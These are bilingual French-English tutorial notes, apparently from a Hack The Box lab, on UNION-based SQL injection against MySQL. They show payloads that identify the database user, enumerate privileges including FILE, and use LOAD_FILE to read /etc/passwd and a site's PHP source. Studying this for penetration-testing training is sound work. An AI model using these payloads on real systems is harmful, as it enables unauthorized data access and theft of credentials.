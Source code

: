 # Reading Files

***

### <mark style="color:red;">Privileges</mark>

* **Lire des données** est beaucoup plus courant que **écrire**, cette dernière action étant réservée aux utilisateurs privilégiés.
* Exemple : sur MySQL, il faut le **privilège FILE** pour charger un fichier dans une table et lire des fichiers.
* On commence donc par **vérifier les privilèges de l’utilisateur** pour décider si l’on peut lire et/ou écrire des fichiers sur le serveur.

<mark style="color:green;">**DB User**</mark>

* Il faut d’abord savoir **quel utilisateur nous sommes** dans la base.
* Lire des données ne nécessite pas forcément les droits DBA, mais dans les DBMS modernes, **seuls les DBA ont souvent ces privilèges**.
* Si nous avons les droits DBA, il est probable d’avoir aussi le **privilège de lecture de fichiers**.
* Sinon, il faut **vérifier nos privilèges** pour savoir ce qu’on peut faire.
* Pour connaître l’utilisateur actuel, on peut utiliser plusieurs requêtes.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="https://academy.hackthebox.com/storage/modules/33/db_user.jpg" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

<mark style="color:green;">**User Privileges**</mark>

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/root_privs.jpg" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query

{% code fullWidth="true" %}
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
{% endcode %}

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

{% code overflow="wrap" fullWidth="true" %}
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

And we see all of the possible privileges given to our current user:

<figure><img src="https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

### <mark style="color:red;">LOAD\_FILE</mark>

* Si l’on a **suffisamment de privilèges**, on peut lire des fichiers locaux avec **`LOAD_FILE()`**.
* Cette fonction MySQL/MariaDB prend **un seul argument** : le nom du fichier.
* Exemple : lire `/etc/passwd` avec `LOAD_FILE('/etc/passwd')`.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:red;">Another Example</mark>

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_search.png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

![load\_file\_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.
